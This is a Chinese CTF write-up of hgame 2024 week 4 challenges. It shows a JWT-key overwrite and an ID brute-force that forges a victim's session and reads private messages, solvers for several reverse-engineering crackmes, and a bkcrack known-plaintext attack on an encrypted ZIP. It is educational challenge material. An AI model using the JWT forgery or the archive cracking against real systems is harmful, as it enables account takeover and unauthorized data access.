用户的个人简介（`bio` 字段）为一个 JSON Object，在访问 `/profile` 时，服务器会将该对象的每个键增加用户名前缀，将变换后的键值对插入当前的 `ctx` 中。这里的关键在于，`ctx` 是一个 serde 定义的 `Map<K, V>` 对象，它的 `insert` 方法在遇到已有键时的行为（详见 https://docs.rs/serde_json/latest/serde_json/struct.Map.html#method.insert，与 std 的 `HashMap<K, V, S>` 相同）是更新相应的值。那么我们不难想到，假如我们的用户名为 `"_system_jwt"`，当我们修改我们的个人简介为 `{ "key": "Hacked", ... }` 时，`ctx` 中的键 `"_system_jwt_key"` 就会被更新为 `"Hacked"`。同时，由于 `ctx_state` 是在应用全局托管的（见 https://api.rocket.rs/v0.5/rocket/struct.Rocket.html#method.manage），对 `ctx` 的修改会影响到所有后续的访问。那么我们就可以直接用可控的 JWT 伪造身份。

```rust
#[derive(Debug, Serialize, Deserialize)]
pub struct UserJwtClaim {
    pub id: i64,
    pub username: String,
    pub exp: u64,
}

#[get("/message")]
pub fn message_page(
    user_from_jwt: UserJwtClaim,
    ctx_state: &State<CtxState>,
    db_state: &State<DbState>,
) -> Template {
    use ...;

    let <u>connection</u> = ...;

    let user_id = user_dsl::users
        .filter(user_dsl::id.eq(&user_from_jwt.id))
        .filter(user_dsl::username.eq(&user_from_jwt.username))
        .select(user_dsl::id)
        .first::<i64>(<u>connection</u>)
        .unwrap();
    let result: Vec<Message> = ...;
    let mut <u>msgs</u>: Vec<Value> = Vec::new();
    for each in result {
        let mut <u>map</u> = Map::new();
        <u>map</u>.<u>insert</u>(...);
        <u>msgs</u>.<u>push</u>(Value::Object(<u>map</u>));
    }
    let mut <u>ctx</u> = ctx_state.ctx.lock().unwrap();
    <u>ctx</u>.<u>insert</u>(...);

    Template::render("messages", &*<u>ctx</u>)
}
```

仅仅伪造签名并不够，因为当且仅当 JWT 中的字段 `id` 和 `username` 对应时，这个 JWT 才有意义。为了找到 `Liki4` 的 ID（的大致范围），我们创建一个新用户以确定其上界。

<https://cyberchef.org/#recipe=JWT_Decode()&input=ZXlKMGVYQWlPaUpLVjFRaUxDSmhiR2NpT2lKSVV6STFOaUo5LmV5SnBaQ0k2TVRjek1pd2lkWE5sY201aGJXVWlPaUowWlhOMElpd2laWGh3SWpveE56QTRPRFk0T1RneWZRLjI0MWpSbUJqNzdZZkpEUjdDelJWWUs0Q3ZmR1lvM0NkYm9PNVAtNmFIOFU>

```json
{
    "id": 1732,
    "username": "test",
    "exp": 1708868982
}
```

那么我们假设 `Liki4` 的 ID 在 0-3000 之间。

我们先注册目标用户，再写入相应键值以覆盖目标 key 为 `"a"`。


然后编写程序生成用 `"a"` 签名的、所有待尝试的 ID-用户名组合的 JWT：

```rust
#[post("/login", format = "json", data = "<login_body>")]
pub fn user_login_post(
    login_body: Json<LoginBody>,
    env_state: &State<EnvState>,
    db_state: &State<DbState>,
    ctx_state: &State<CtxState>,
    cookies: &CookieJar<'_>,
) -> Result<Json<ReturnPack<String>>> {
    ...

    let jwt = Jwt::new(&"a".to_string());
    eprintln!("JWT key: {}", &key);

    for i in 0..3000 {
        let t = jwt.sign(UserJwtClaim {
            id: i,
            username: "Liki4".to_string(),
            exp: get_current_timestamp() + 36000,
        })
        .map_err(|_| {
            eprintln!("JWT sign failed");
            Error::new("Auth", 500, "JWT sign failed")
        })?;
        eprintln!("{}: {}", i, t);
    }
    
    ...
}
```


将结果保存至文件，使用 burp 对文件中的 token 逐一尝试。


能够看到除了原始请求之外，还有一个请求返回值为 200，此即为正确的 ID-用户名组合生成的 JWT。使用该 JWT 访问 `/message` 即可访问到 `Liki4` 的非公开留言，即为 flag。


`hgame{63c4d9fc4613c81bce3a2e05577e8fc024c93ed1}`

## Reverse

### again!

> 为啥无法运行也无法反编译！

Misc-based reverse engineering，Python 字节码分析，TEA 类似算法分析。

```plain-text
PS D:\Workspace\rev\hgame_2024\week_4\again> D:\bdist\pyinstxtractor-ng.exe .\bin1.exe
[+] Processing .\bin1.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.11
[+] Length of package: 1335325 bytes
[+] Found 10 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: bin1.pyc
[!] Unmarshalling FAILED. Cannot extract PYZ-00.pyz. Extracting remaining files.
[+] Successfully extracted pyinstaller archive: .\bin1.exe

You can now use a python decompiler on the pyc files within the extracted directory
PS D:\Workspace\rev\hgame_2024\week_4\again>
```

```plain-text
(pwnenv) PS D:\Workspace\rev\hgame_2024\week_4\again> pycdas .\bin1.exe_extracted\bin1.pyc
bin1.pyc (Python 3.11)
[Code]
    File Name: bin1.py
    Object Name: <module>
    Qualified Name: <module>
    Arg Count: 0
    Pos Only Arg Count: 0
    KW Only Arg Count: 0
    Stack Size: 10
    Flags: 0x00000000
    [Names]
        ...
    [Locals+Names]
    [Constants]
        ...
    [Disassembly]
        0       RESUME                          0
        2       LOAD_CONST                      0: 0
        4       LOAD_CONST                      1: None
        6       IMPORT_NAME                     0: hashlib
        8       STORE_NAME                      0: hashlib
        10      PUSH_NULL
        12      LOAD_NAME                       1: print
        14      LOAD_CONST                      2: 'you should use this execute file to decrypt "bin2"'
        16      PRECALL                         1
        20      CALL                            1
        30      POP_TOP
        32      PUSH_NULL
        34      LOAD_NAME                       1: print
        36      LOAD_CONST                      3: 'hint:md5'
        38      PRECALL                         1
        42      CALL                            1
        52      POP_TOP
        54      PUSH_NULL
        56      LOAD_NAME                       2: bytearray
        58      PRECALL                         0
        62      CALL                            0
        72      STORE_NAME                      3: s
        74      PUSH_NULL
        76      LOAD_NAME                       2: bytearray
        78      PUSH_NULL
        80      LOAD_NAME                       4: open
        82      LOAD_CONST                      4: 'bin1.pyc'
        84      LOAD_CONST                      5: 'rb'
        86      PRECALL                         2
        90      CALL                            2
        100     LOAD_METHOD                     5: read
        122     PRECALL                         0
        126     CALL                            0
        136     PRECALL                         1
        140     CALL                            1
        150     STORE_NAME                      6: f
        152     LOAD_CONST                      6: 'jkasnwojasd'
        154     STORE_NAME                      7: t
        156     PUSH_NULL
        158     LOAD_NAME                       8: range
        160     LOAD_CONST                      0: 0
        162     LOAD_CONST                      7: 15
        164     PRECALL                         2
        168     CALL                            2
        178     GET_ITER
        180     FOR_ITER                        106 (to 394)
        182     STORE_NAME                      9: i
        184     LOAD_NAME                       6: f
        186     LOAD_NAME                       9: i
        188     BINARY_SUBSCR
        198     LOAD_NAME                       6: f
        200     LOAD_NAME                       9: i
        202     LOAD_CONST                      8: 6
        204     BINARY_OP                       6 (%)
        208     BINARY_SUBSCR
        218     BINARY_OP                       0 (+)
        222     PUSH_NULL
        224     LOAD_NAME                       10: ord
        226     LOAD_NAME                       7: t
        228     LOAD_NAME                       9: i
        230     LOAD_CONST                      8: 6
        232     BINARY_OP                       6 (%)
        236     BINARY_SUBSCR
        246     PRECALL                         1
        250     CALL                            1
        260     PUSH_NULL
        262     LOAD_NAME                       10: ord
        264     LOAD_NAME                       7: t
        266     LOAD_NAME                       9: i
        268     PUSH_NULL
        270     LOAD_NAME                       11: len
        272     LOAD_NAME                       7: t
        274     PRECALL                         1
        278     CALL                            1
        288     BINARY_OP                       6 (%)
        292     BINARY_SUBSCR
        302     PRECALL                         1
        306     CALL                            1
        316     BINARY_OP                       0 (+)
        320     BINARY_OP                       12 (^)
        324     LOAD_CONST                      9: 256
        326     BINARY_OP                       6 (%)
        330     LOAD_NAME                       6: f
        332     LOAD_NAME                       9: i
        334     STORE_SUBSCR
        338     LOAD_NAME                       3: s
        340     LOAD_METHOD                     12: append
        362     LOAD_NAME                       6: f
        364     LOAD_NAME                       9: i
        366     BINARY_SUBSCR
        376     PRECALL                         1
        380     CALL                            1
        390     POP_TOP
        392     JUMP_BACKWARD                   107 (to 180)
        394     PUSH_NULL
        396     LOAD_NAME                       1: print
        398     LOAD_NAME                       3: s
        400     PRECALL                         1
        404     CALL                            1
        414     POP_TOP
        416     PUSH_NULL
        418     LOAD_NAME                       0: hashlib
        420     LOAD_ATTR                       13: md5
        430     PUSH_NULL
        432     LOAD_NAME                       14: bytes
        434     LOAD_NAME                       3: s
        436     PRECALL                         1
        440     CALL                            1
        450     PRECALL                         1
        454     CALL                            1
        464     LOAD_METHOD                     15: hexdigest
        486     PRECALL                         0
        490     CALL                            0
        500     STORE_NAME                      16: md5_hash
        502     LOAD_CONST                      1: None
        504     RETURN_VALUE
(pwnenv) PS D:\Workspace\rev\hgame_2024\week_4\again>
```

手动重构出 python 源码。

```python
import hashlib

print('you should use this execute file to decrypt "bin2"')
print("hint:md5")
s = bytearray()
f = bytearray(open("bin1.pyc", "rb").read())
t = "jkasnwojasd"

for i in range(0, 15):
    f[i] = ((f[i] + f[i % 6]) ^ (ord(t[i % 6]) + ord(t[i % len(t)]))) % 256
    s.append(f[i])
print(s)

md5_hash = hashlib.md5(bytes(s)).hexdigest()
```

“你需要使用这个文件解密 bin2。”猜测最后计算的 MD5 的十六进制字符串与 bin2 的加密有关。尝试后发现 `bytes(md5_hash)` 就是 bin2 异或加密的密钥。

<https://cyberchef.org/#recipe=XOR(%7B'option':'Latin1','string':'a405b5d321e446459d8f9169d027bd92'%7D,'Standard',false)>

使用 IDA 分析。

```c
void __fastcall enc(__int64 a1, __int64 a2, int key[])
{
  ...

  x_7 = str_input[7];
  x_6 = str_input[6];
  sum = 0;
  x_5 = str_input[5];
  x_4 = str_input[4];
  x_3 = str_input[3];
  x_2 = str_input[2];
  x_1 = str_input[1];
  x_0 = str_input[0];
  x_7_ = str_input[7];
  rounds = 12;
  do
  {
    sum += 0x7937B99E;
    v13 = key[(sum >> 2) & 3];
    str_input[0] = x_0 + (((sum ^ x_1) + (x_7 ^ v13)) ^ (((16 * x_7) ^ (x_1 >> 3)) + ((x_7 >> 5) ^ (4 * x_1))));
    x_1 += ((sum ^ x_2) + (str_input[0] ^ key[(sum >> 2) & 3 ^ 1i64])) ^ (((16 * str_input[0]) ^ (x_2 >> 3))
                                                                        + ((str_input[0] >> 5) ^ (4 * x_2)));
    x_2 += ((sum ^ x_3) + (x_1 ^ key[(sum >> 2) & 3 ^ 2i64])) ^ (((16 * x_1) ^ (x_3 >> 3)) + ((x_1 >> 5) ^ (4 * x_3)));
    x_3 += ((sum ^ x_4) + (x_2 ^ key[(sum >> 2) & 3 ^ 3i64])) ^ (((16 * x_2) ^ (x_4 >> 3)) + ((x_2 >> 5) ^ (4 * x_4)));
    x_4 += ((sum ^ x_5) + (x_3 ^ v13)) ^ (((16 * x_3) ^ (x_5 >> 3)) + ((x_3 >> 5) ^ (4 * x_5)));
    x_0 = str_input[0];
    x_5 += ((sum ^ x_6) + (x_4 ^ key[(sum >> 2) & 3 ^ 1i64])) ^ (((16 * x_4) ^ (x_6 >> 3)) + ((x_4 >> 5) ^ (4 * x_6)));
    x_6 += ((x_5 ^ key[(sum >> 2) & 3 ^ 2i64]) + (sum ^ x_7_)) ^ (((16 * x_5) ^ (x_7_ >> 3)) + ((x_5 >> 5) ^ (4 * x_7_)));
    x_7 = x_7_
        + (((x_6 ^ key[(sum >> 2) & 3 ^ 3i64]) + (sum ^ str_input[0])) ^ (((16 * x_6) ^ (str_input[0] >> 3))
                                                                        + ((x_6 >> 5) ^ (4 * str_input[0]))));
    finished = rounds-- == 1;
    x_7_ = x_7;
  }
  while ( !finished );
  str_input[7] = x_7;
  str_input[1] = x_1;
  str_input[2] = x_2;
  str_input[3] = x_3;
  str_input[4] = x_4;
  str_input[5] = x_5;
  str_input[6] = x_6;
}

int __fastcall main(int argc, const char **argv, const char **envp)
{
  ...

  lib_printf("plz input your flag:");
  lib_scanf("%32s", (const char *)str_input);
  key[0] = 4660;
  key[1] = 9025;
  key[2] = 13330;
  key[3] = 16675;
  enc(v4, v3, key);
  i_0 = 0i64;
  while ( str_input[i_0] == arr_target[i_0] )
  {
    if ( ++i_0 >= 8 )
    {
      lib_printf("Congratulations!");
      return 0;
    }
  }
  lib_printf("Wrong!try again...");
  return 0;
}
```

略微整理后可以观察到核心算法是某种块大小为 8 个 DWORD 的 TEA 算法变种：

```c
sum = 0;
do {
  sum += 0x7937B99E;
  x[0] += ((sum ^ x[1]) + (x[7] ^ key[(sum >> 2) & 3])) ^ (((16 * x[7]) ^ (x[1] >> 3)) + ((x[7] >> 5) ^ (4 * x[1])));
  x[1] += ((sum ^ x[2]) + (x[0] ^ key[(sum >> 2) & 3 ^ 1])) ^ (((16 * x[0]) ^ (x[2] >> 3)) + ((x[0] >> 5) ^ (4 * x[2])));
  x[2] += ((sum ^ x[3]) + (x[1] ^ key[(sum >> 2) & 3 ^ 2])) ^ (((16 * x[1]) ^ (x[3] >> 3)) + ((x[1] >> 5) ^ (4 * x[3])));
  x[3] += ((sum ^ x[4]) + (x[2] ^ key[(sum >> 2) & 3 ^ 3])) ^ (((16 * x[2]) ^ (x[4] >> 3)) + ((x[2] >> 5) ^ (4 * x[4])));
  x[4] += ((sum ^ x[5]) + (x[3] ^ key[(sum >> 2) & 3])) ^ (((16 * x[3]) ^ (x[5] >> 3)) + ((x[3] >> 5) ^ (4 * x[5])));
  x[5] += ((sum ^ x[6]) + (x[4] ^ key[(sum >> 2) & 3 ^ 1])) ^ (((16 * x[4]) ^ (x[6] >> 3)) + ((x[4] >> 5) ^ (4 * x[6])));
  x[6] += ((sum ^ x[7]) + (x[5] ^ key[(sum >> 2) & 3 ^ 2])) ^ (((16 * x[5]) ^ (x[7] >> 3)) + ((x[5] >> 5) ^ (4 * x[7])));
  x[7] += ((sum ^ x[0]) + (x[6] ^ key[(sum >> 2) & 3 ^ 3])) ^ (((16 * x[6]) ^ (x[0] >> 3)) + ((x[6] >> 5) ^ (4 * x[0])));
  finished = rounds-- == 1;
} while ( !finished );
```

于是不难写出解密代码。

```c
#define _CRT_SECURE_NO_WARNINGS

#include <assert.h>
#include <stdio.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <ctype.h>
#include <wchar.h>

#pragma warning(push)
#pragma warning(disable:6031)

static const uint32_t KEY[] = {4660, 9025, 13330, 16675};

static uint32_t cipher[] = {
    0x506FB5C3, 0xB9358F45, 0xC91AE8C7, 0x3820E280, 0xD13ABA83, 0x975CF554, 0x4352036B, 0x1CD20447
};

static void decode(uint32_t x[], uint32_t rounds, const uint32_t key[4]) {
    bool finished = false;
    uint32_t sum = 0x7937B99E * rounds;
    do {
        x[7] -= ((sum ^ x[0]) + (x[6] ^ key[(sum >> 2) & 3 ^ 3])) ^ (((16 * x[6]) ^ (x[0] >> 3)) + ((x[6] >> 5) ^ (4 * x[0])));
        x[6] -= ((sum ^ x[7]) + (x[5] ^ key[(sum >> 2) & 3 ^ 2])) ^ (((16 * x[5]) ^ (x[7] >> 3)) + ((x[5] >> 5) ^ (4 * x[7])));
        x[5] -= ((sum ^ x[6]) + (x[4] ^ key[(sum >> 2) & 3 ^ 1])) ^ (((16 * x[4]) ^ (x[6] >> 3)) + ((x[4] >> 5) ^ (4 * x[6])));
        x[4] -= ((sum ^ x[5]) + (x[3] ^ key[(sum >> 2) & 3])) ^ (((16 * x[3]) ^ (x[5] >> 3)) + ((x[3] >> 5) ^ (4 * x[5])));
        x[3] -= ((sum ^ x[4]) + (x[2] ^ key[(sum >> 2) & 3 ^ 3])) ^ (((16 * x[2]) ^ (x[4] >> 3)) + ((x[2] >> 5) ^ (4 * x[4])));
        x[2] -= ((sum ^ x[3]) + (x[1] ^ key[(sum >> 2) & 3 ^ 2])) ^ (((16 * x[1]) ^ (x[3] >> 3)) + ((x[1] >> 5) ^ (4 * x[3])));
        x[1] -= ((sum ^ x[2]) + (x[0] ^ key[(sum >> 2) & 3 ^ 1])) ^ (((16 * x[0]) ^ (x[2] >> 3)) + ((x[0] >> 5) ^ (4 * x[2])));
        x[0] -= ((sum ^ x[1]) + (x[7] ^ key[(sum >> 2) & 3])) ^ (((16 * x[7]) ^ (x[1] >> 3)) + ((x[7] >> 5) ^ (4 * x[1])));
        sum -= 0x7937B99E;
        finished = rounds-- == 1;
    } while (!finished);
}

int main(void) {
    decode(cipher, 12, KEY);
    for (int i = 0; i < sizeof(cipher); i++) {
        putchar(((uint8_t *)cipher)[i]);
    }
    putchar('\n');
    return 0;
}

#pragma warning(pop)
```

`hgame{btea_is_a_hard_encryption}`

### change

> 丑死了

一个简单的循环，加密操作由一个函数指针在两个函数之间切换。

```c
__int64 __fastcall fun_xor(unsigned int a1, int a2)
{
  return a2 ^ a1;
}

__int64 __fastcall fun_xor_add10(unsigned int a1, int a2)
{
  return (a2 ^ a1) + 10;
}

void __fastcall sub_1400029A0(__int64 key, __int64 out, __int64 input)
{
  char *c_2; // rax
  char *c_1; // rax
  int i; // [rsp+20h] [rbp-58h]
  unsigned int k_2; // [rsp+28h] [rbp-50h]
  char v7; // [rsp+2Ch] [rbp-4Ch]
  unsigned int k_1; // [rsp+30h] [rbp-48h]
  char v9; // [rsp+34h] [rbp-44h]
  unsigned __int64 v10; // [rsp+48h] [rbp-30h]
  unsigned __int64 v11; // [rsp+58h] [rbp-20h]

  std::shared_ptr<__ExceptionPtr>::operator=(out, input);
  for ( i = 0; i < (unsigned __int64)unknown_libname_20(out); ++i )
  {
    if ( i % 2 )
    {
      sub_140002D20((__int64)fun_xor);
      v11 = unknown_libname_20(key);
      k_1 = *(char *)sub_140002960(key, i % v11);
      c_1 = (char *)sub_140002960(out, i);
      v9 = beep(*c_1, k_1);
      *(_BYTE *)sub_140002960(out, i) = v9;
    }
    else
    {
      sub_140002D20((__int64)fun_xor_add10);
      v10 = unknown_libname_20(key);
      k_2 = *(char *)sub_140002960(key, i % v10);
      c_2 = (char *)sub_140002960(out, i);
      v7 = beep(*c_2, k_2);
      *(_BYTE *)sub_140002960(out, i) = v7;
    }
  }
}

int __fastcall main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+20h] [rbp-B8h]
  int v5; // [rsp+24h] [rbp-B4h]
  __int64 v6; // [rsp+38h] [rbp-A0h]
  char v7[32]; // [rsp+40h] [rbp-98h] BYREF
  __int64 out[4]; // [rsp+60h] [rbp-78h] BYREF
  __int64 key[4]; // [rsp+80h] [rbp-58h] BYREF
  char v10[32]; // [rsp+A0h] [rbp-38h] BYREF

  sub_1400021E0((__int64)v10, (__int64)"am2qasl");
  v6 = std::shared_ptr<__ExceptionPtr>::operator=(v7, v10);
  sub_140002280((__int64)key, v6);
  sub_140001410(std::cout, "plz input your flag:");
  sub_1400010F0(std::cin, &str_input);
  fun_encrypt((__int64)key, (__int64)out, (__int64)&str_input);
  for ( i = 0; i < 24; ++i )
  {
    v5 = arr_target[i];
    if ( v5 != *(char *)sub_140002960((__int64)out, i) )
    {
      sub_140001410(std::cout, "sry,try again...");
      std::string::~string(out);
      sub_140002780((__int64)key);
      std::string::~string(v10);
      return 0;
    }
  }
  sub_140001410(std::cout, "Congratulations!");
  std::string::~string(out);
  sub_140002780((__int64)key);
  std::string::~string(v10);
  return 0;
}
```

那么可以写出解密脚本。

```python
from pwn import *

ARR_TARGET = [0x13, 0x0A, 0x5D, 0x1C, 0x0E, 0x08, 0x23, 0x06, 0x0B, 0x4B, 0x38, 0x22, 0x0D, 0x1C, 0x48, 0x0C, 0x66, 0x15, 0x48, 0x1B, 0x0D, 0x0E, 0x10, 0x4F, 0xFF, 0xFF, 0xFF, 0xFF, 0x00, 0x00, 0x00, 0x00]
ARR_KEY = b"am2qasl"

out: list[int] = []
for i in range(0, len(ARR_TARGET)):
    if i % 2 != 0:
        out.append(ARR_TARGET[i] ^ ARR_KEY[i % len(ARR_KEY)])
    else:
        out.append(((ARR_TARGET[i] - 10) & 0xFF) ^ ARR_KEY[i % len(ARR_KEY)])
success(bytes(out).decode("ascii", errors="ignore"))
```

```bash
PS D:\Workspace\rev\hgame_2024\week_4> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/hgame_2024/week_4/change/sol.py
[+] hgame{ugly_Cpp_and_hook}mq
PS D:\Workspace\rev\hgame_2024\week_4>
```

`hgame{ugly_Cpp_and_hook}`

### crackme2

> 新一代 flag checker

运行时解密 + 约束求解。

看到一个通过抛访问异常修改控制流的指令。

```assembly
.text:00000001400034DE loc_1400034DE:                          ; DATA XREF: .rdata:0000000140005834↓o
.text:00000001400034DE ;   __try { // __except at loc_1400034EB
.text:00000001400034DE                 mov     byte ptr ds:0, 1
.text:00000001400034E6                 jmp     loc_14000359B
.text:00000001400034E6 ;   } // starts at 1400034DE
.text:00000001400034EB ; ---------------------------------------------------------------------------
.text:00000001400034EB
.text:00000001400034EB loc_1400034EB:                          ; DATA XREF: .rdata:0000000140005834↓o
.text:00000001400034EB ;   __except(1) // owned by 1400034DE
```

NOP 掉方便反编译。

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  HANDLE CurrentProcess; // rax
  int v4; // r8d
  __int64 v5; // rdx
  int v6; // eax
  const char *v7; // rcx
  char v9[72]; // [rsp+30h] [rbp-48h] BYREF
  DWORD flOldProtect; // [rsp+80h] [rbp+8h] BYREF
  __int64 ProcessInformation; // [rsp+88h] [rbp+10h] BYREF
  ULONG ReturnLength; // [rsp+90h] [rbp+18h] BYREF

  sub_1400035C4("%50s", v9);
  CurrentProcess = GetCurrentProcess();
  NtQueryInformationProcess(CurrentProcess, ProcessDebugPort, &ProcessInformation, 8u, &ReturnLength);
  if ( ProcessInformation != -1 )
  {
    VirtualProtect(sub_14000105C, 0x6000ui64, 0x40u, &flOldProtect);
    v4 = 0;
    v5 = 0i64;
    do
    {
      *((_BYTE *)sub_14000105C + v5) ^= byte_140006000[v5];
      ++v4;
      ++v5;
    }
    while ( (unsigned __int64)v4 < 0x246A );
    VirtualProtect(sub_14000105C, 0x6000ui64, flOldProtect, &flOldProtect);
  }
  v6 = sub_14000105C(v9);
  v7 = "right flag!";
  if ( !v6 )
    v7 = "wrong flag!";
  puts(v7);
  return 0;
}
```

发现程序在运行时对 sub_14000105C 进行了异或解密。写出 patch 的 IDAPython 脚本：

```python
import ida_bytes

ADDR_START = 0x14000105C
ADDR_KEY = 0x140006000
LEN = 0x246A

for i in range(LEN):
    b = ida_bytes.get_byte(ADDR_START + i)
    b ^= ida_bytes.get_byte(ADDR_KEY + i)
    ida_bytes.patch_byte(ADDR_START + i, b)
```

执行后反编译发现大量布尔约束条件。

```c
_BOOL8 __fastcall sub_14000105C(unsigned __int8 *a1)
{
  ...
  
  v1 = a1[25];
  ...
  v18 = a1[9];
  
  if ( v18
     + 201 * v24
     + 194 * v10
     + 142 * v20
     + 114 * v39
     + 103 * v11
     + 52 * (v17 + v31)
     + ((v9 + v23) << 6)
     + 14 * (v21 + 4 * v25 + v25)
     + 9 * (v40 + 23 * v27 + v2 + 3 * v1 + 4 * v2 + 4 * v6)
     + 5 * (v16 + 23 * v30 + 2 * (v3 + 2 * v19) + 5 * v5 + 39 * v15 + 51 * v4)
     + 24 * (v8 + 10 * v28 + 4 * (v42 + v7 + 2 * v26))
     + 62 * v22
     + 211 * v41
     + 212 * v29 != 296473 )
    return 0i64;
  v38 = 2 * v16;
  if ( 207 * v41
     + 195 * v22
     + 151 * v40
     + 57 * v5
     + 118 * v6
     + 222 * v42
     + 103 * v7
     + 181 * v8
     + 229 * v9
     + 142 * v31
     + 51 * v29
     + 122 * (v26 + v20)
     + 91 * (v2 + 2 * v16)
     + 107 * (v27 + v25)
     + 81 * (v17 + 2 * v18 + v18)
     + 45 * (v19 + 2 * (v11 + v24) + v11 + v24)
     + 4 * (3 * (v23 + a1[19] + 2 * v23 + 5 * v4) + v39 + 29 * (v10 + v1) + 25 * v15)
     + 26 * v28
     + 101 * v30
     + 154 * v3 != 354358 )
    return 0i64;
  if ( 177 * v40
     + 129 * v26
     + 117 * v42
     + 143 * v28
     + 65 * v8
     + 137 * v25
     + 215 * v21
     + 93 * v31
     + 235 * v39
     + 203 * v11
     + 15 * (v7 + 17 * v30)
     + 2
     * (v24
      + 91 * v9
      + 95 * v29
      + 51 * v41
      + 81 * v20
      + 92 * v18
      + 112 * (v10 + v6)
      + 32 * (v22 + 2 * (v1 + v23))
      + 6 * (v2 + 14 * v16 + 19 * v15)
      + 83 * v5
      + 53 * v4
      + 123 * v19)
     + v17
     + 175 * v27
     + 183 * v3 == 448573
    && ...
    && 127 * v4
     + 106 * v15
     + 182 * v30
     + 142 * v5
     + 159 * v16
     + 17 * v1
     + 211 * v6
     + 134 * v2
     + 199 * v7
     + 103 * v28
     + 247 * v23
     + 122 * v9
     + 95 * v41
     + 62 * v10
     + 203 * v39
     + 16 * v11
     + 41 * (6 * v42 + v25)
     + 9 * (22 * v24 + v20 + 27 * v31 + 28 * v40)
     + 10 * (v8 + v22 + v36 + 8 * v17 + 2 * (v22 + v36 + 8 * v17) + 13 * v29)
     + 6 * (23 * v27 + v26)
     + 213 * v18
     + 179 * v3
     + 43 * v19 == 418596 )
  {
    return 149 * v19
         + v1
         + 133 * v22
         + 207 * v41
         + 182 * v26
         + 234 * v7
         + 199 * v8
         + 168 * v21
         + 58 * v10
         + 108 * v20
         + 142 * v18
         + 156 * (v9 + v25)
         + 16 * (v29 + 6 * v31)
         + 126 * (v17 + 2 * v39)
         + 127 * (v4 + 2 * v27 + v40)
         + 49 * (v30 + 4 * v16)
         + 11 * (v5 + 22 * v11)
         + 5 * (v15 + v42 + 45 * v24 + 50 * v28)
         + 109 * v2
         + 124 * v6
         + 123 * v3 == 418697;
  }
  else
  {
    return 0i64;
  }
}
```

构造线性方程组求解。

```python
#!/usr/bin/env python3
# gen_A.py

import re

import z3

RE_TERM = re.compile(r"([0-9]+)?**\***?x**\(**([0-9]+)**\)**")

N_UNKNOWNS = 32
UNK_WIDTH = 8

x = [z3.BitVec(f"x({i + 1})", UNK_WIDTH) for i in range(N_UNKNOWNS)]

exprs: tuple[z3.BitVecRef]
with open("./exprs.py", "rt") as f:
    exec(f.read())

A: list[list[int]] = []
for e in exprs:
    row = [0] * N_UNKNOWNS
    expr_str = str(z3.simplify(e))
    for line in expr_str.split("\n"):
        line = line.strip()
        m = RE_TERM.match(line)
        assert m is not None
        k, i = m.groups()
        k = 1 if k is None else int(k)
        i = int(i)
        row[i - 1] = k
    A.append(row)
print("LIST_A=", A, sep="", end="")
```

```python
#!/usr/bin/env python3
# gen_b.py

import re

RE_EQUAL = re.compile(r"== ([0-9]+)")

b: list[int] = []
with open("./constraints.txt", "rt") as f:
    for line in f.readlines():
        line = line.strip()
        m = RE_EQUAL.match(line)
        if m:
            b.append(int(m.group(1)))
print("LIST_b=", b, sep="", end="")
```

```python
#!/usr/bin/env sage

from sage.all import *

LIST_A: list[list[int]]
LIST_b: list[int]

with open("./LIST_A.py", "rt") as f:
    exec(f.read())
with open("./LIST_b.py", "rt") as f:
    exec(f.read())

R = Integers(2**8)

A = matrix(QQ, LIST_A)
b = vector(QQ, LIST_b)

x = A.solve_right(b)
x_R = [R(xi) for xi in x]
s = "".join(map(chr, x_R))
print(s)
```

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_4/crackme2$ python3 ./gen_A.py > LIST_A.py
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_4/crackme2$ python3 ./gen_b.py > LIST_b.py
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_4/crackme2$ sage ./sol.sage
hgame{SMC_4nd_s0lv1ng_equ4t1Ons}
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_4/crackme2$
```

`hgame{SMC_4nd_s0lv1ng_equ4t1Ons}`

## Misc

### maybezip

>

起手一个 XOR。

<https://cyberchef.org/#recipe=XOR(%7B'option':'Hex','string':'27'%7D,'Standard',false)

有密码，~~考虑爆破。~~ 考虑已知明文攻击。~~但是压缩方式是 deflate 而不是 store，而且没有提供相应的明文。~~

bkcrack 的 issue 中的一条回复提供了启发：

> [@kimci86](https://github.com/kimci86): ... I investigated a little more using [infgen](https://github.com/madler/infgen). I found the deflated data starts with a dynamic block (it can be difficult to guess the right parameters) but ends with a stored block (not compressed). ...

也就是说，虽然我们无法得知 deflate 流第一个块的内容（Huffman tree 结构依赖于文件内容），但最后一个块有很大概率是 store 的。那么，由于 PNG 文件以 `IEND` 段结束，我们就有了一段明文 `b"\x00\x00\x00\x00IEND\xae\x42\x60\x82"`，长度为 12 字节，恰好满足已知明文攻击的最低要求。我们可以通过手动创建一个可控的 zip 文件证实这个说法。


由于压缩包中有大量 PNG 文件，我们尝试对每一个文件 deflate 流的末尾进行已知明文攻击。注意这里的 offset 是 `ciphertext.size() - ENCRYPTION_HEADER_SIZE - plaintext.size() == 83374 - 12 - 12`（<https://github.com/kimci86/bkcrack/blob/0b5a89130346b15a1297c99e1ef98e56a35c4243/src/Data.cpp#L50>）。

```plain-text
PS D:\bdist\bkcrack-1.6.1-win64> .\bkcrack.exe -L D:\Workspace\rev\hgame_2024\week_4\maybezip\download.zip
bkcrack 1.6.1 - 2024-01-22
Archive: D:\Workspace\rev\hgame_2024\week_4\maybezip\download.zip
Index Encryption Compression CRC32    Uncompressed  Packed size Name
----- ---------- ----------- -------- ------------ ------------ ----------------
    0 None       Store       00000000            0            0 out/
    1 ZipCrypto  Deflate     d785b4e3        83332        83374 out/001.png
    2 ZipCrypto  Deflate     387cc7c7        50665        50681 out/002.png
...
  119 ZipCrypto  Deflate     1685465f          449          240 out/my_secret.txt
